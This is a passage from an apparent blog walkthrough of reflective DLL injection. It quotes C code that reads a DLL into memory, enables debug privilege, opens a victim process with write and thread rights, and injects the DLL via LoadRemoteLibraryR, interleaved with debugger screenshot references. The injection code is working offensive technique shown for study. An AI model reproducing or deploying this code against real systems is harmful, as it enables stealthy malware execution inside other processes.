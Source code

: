 ```C

		lpBuffer = HeapAlloc( GetProcessHeap(), 0, dwLength );
		if( !lpBuffer )
			BREAK_WITH_ERROR( "Failed to get the DLL file size" );

		if( ReadFile( hFile, lpBuffer, dwLength, &dwBytesRead, NULL ) == FALSE )
			BREAK_WITH_ERROR( "Failed to alloc a buffer!" );
```
So we see how the path string is loaded in here:

![ref1](https://artik.blue/images/reflective/1.png)

![ref2](https://artik.blue/images/reflective/2.png)

A handle to the file is opened:

![ref3](https://artik.blue/images/reflective/3.png)

And the bytes are read:
![ref4](https://artik.blue/images/reflective/4.png)


After that the attacker opens the victim process, getting a handle to it, then it will call LoadRemoteLibraryR, that is a custom function in charge of writting in the raw bytes of the DLL inside the remote process and passing its execution to the reflectiveloader:

```C
if( OpenProcessToken( GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken ) )
		{
			priv.PrivilegeCount           = 1;
			priv.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
		
			if( LookupPrivilegeValue( NULL, SE_DEBUG_NAME, &priv.Privileges[0].Luid ) )
				AdjustTokenPrivileges( hToken, FALSE, &priv, 0, NULL, NULL );

			CloseHandle( hToken );
		}

		hProcess = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_VM_READ, FALSE, dwProcessId );
		if( !hProcess )
			BREAK_WITH_ERROR( "Failed to open the target process" );

		hModule = LoadRemoteLibraryR( hProcess, lpBuffer, dwLength, NULL );
		if( !hModule )
			BREAK_WITH_ERROR( "Failed to inject the DLL" );

		printf( "[+] Injected the '%s' DLL into process %d.", cpDllFile, dwProcessId );
		
		WaitForSingleObject( hModule, -1 );
```
So we see the handle to the process being retrieved:
![ref5](https://artik.blue/images/reflective/5.png)

